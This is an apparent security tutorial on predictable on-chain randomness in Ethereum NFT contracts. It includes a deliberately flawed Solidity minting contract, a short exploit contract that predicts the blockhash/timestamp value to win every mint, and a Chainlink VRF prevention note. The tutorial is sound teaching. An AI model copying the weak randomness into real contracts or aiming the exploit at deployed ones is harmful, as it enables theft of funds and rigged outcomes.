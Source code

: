 
# Bad Randomness

## Pseudo-Random Numbers

Many applications on Ethereum, such as NFT random tokenId draws, blind box openings, and GameFi combat outcomes, rely on random numbers. However, since all data on Ethereum is public and deterministic, traditional random generation methods like `random()` are not available.

Instead, projects often use pseudo-random number generators such as `blockhash()` and `keccak256()`. This approach, known as the Bad Randomness Vulnerability, allows attackers to predict outcomes, enabling them to manipulate results like minting specific rare NFTs.

This vulnerability is common in NFT and GameFi projects, including Meebits, Loots, and Wolf Game. It has led to significant financial losses, such as the SmartBillions Lottery exploit where attackers used predictable outcomes to win over 400 ETH. More information is available in the article, [The Blockchain Lottery SmartBillions Was Hacked for $120,000](https://crypto.news/blockchain-lottery-smartbillions-hacked-for-120000/).

## Example of a Bad Randomness Vulnerability

Let's explore a vulnerable NFT contract, `FlawedRandomizer.sol`.

```solidity
contract FlawedRandomizer is ERC721 {
    uint256 public totalMints;

    // Constructor initializes the NFT collection's name and symbol.
    constructor() ERC721("", ""){}

    // Mint function: mints only when the input luckyNumber equals the random number.
    function mintIfLucky(uint256 guessedNumber) public {
        uint256 pseudoRandomNumber = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))) % 100; // Get pseudo-random number
        require(pseudoRandomNumber == guessedNumber, "Try again next time!");

        _mint(msg.sender, totalMints);
        totalMints++;
    }
}
```

The main function `mintIfLucky()` requires users to enter a number between `0-99`. If it matches the chain-generated pseudo-random number `pseudoRandomNumber`, they can mint a lucky NFT. The vulnerability lies in the ability of users to perfectly predict the generated random number and mint the NFT.

Let's write an attack contract `Exploit.sol`.

```solidity
contract Exploit {
    function executeMint(FlawedRandomizer nftAddress) public {
        // Calculate the random number in advance
        uint256 predictedNumber = uint256(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        ) % 100;
        // Use predictedNumber to execute the attack
        nftAddress.mintIfLucky(predictedNumber);
    }
}
```

The function `executeMint()` takes a `FlawedRandomizer` contract address as a parameter. Here, we calculate the `predictedNumber` and then pass it to the `mintIfLucky()` function to execute the attack. Since both `executeMint()` and `mintIfLucky()` are called in the same block, the `blockhash` and `block.timestamp` are the same, making the generated random number predictable.

## Prevention Strategy

Use off-chain random numbers provided by oracle projects to prevent this type of vulnerability, such as Chainlink VRF. These random numbers are generated off-chain and uploaded to the blockchain, ensuring they are unpredictable.
